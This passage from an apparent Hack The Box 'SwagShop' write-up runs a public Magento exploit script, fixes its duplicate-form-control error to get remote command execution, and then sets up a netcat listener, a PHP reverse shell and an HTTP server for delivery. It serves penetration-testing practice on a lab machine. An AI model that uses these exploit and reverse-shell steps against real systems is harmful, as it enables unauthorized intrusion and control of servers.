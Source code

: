 ```bash
python2 37811.py 'http://swagshop.htb/index.php/admin' "uname -a"
```

And we will encounter another problem:

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/SwagShop]
└─$ python2 37811.py 'http://swagshop.htb/index.php/admin' "uname -a"
Traceback (most recent call last):
  File "37811.py", line 46, in <module>
    br['login[username]'] = username
  File "/home/kali/.local/lib/python2.7/site-packages/mechanize/_mechanize.py", line 809, in __setitem__
    self.form[name] = val
  File "/home/kali/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 1963, in __setitem__
    control = self.find_control(name)
  File "/home/kali/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2355, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
  File "/home/kali/.local/lib/python2.7/site-packages/mechanize/_form_controls.py", line 2446, in _find_control
    description)
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'

```

I was having the error due to these lines. I figured it was because it was adding username control two times. I commented out this line:  

`br.form.new_control(‘text’, ‘login[username]’, {‘value’: username})`

![[SwagShop-08.png]]

And run it again:

```bash
python2 37811.py 'http://swagshop.htb/index.php/admin' "uname -a"
```

![[SwagShop-09.png]]

Excellent! we got the command execution. The next step was let system runs reverse shell command.

set up httpserver and 1234 port listener, copy kali reverse php shell 

```bash
nc -lnvp 1234
```

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

```bash
python3 -m http.server 80 
```
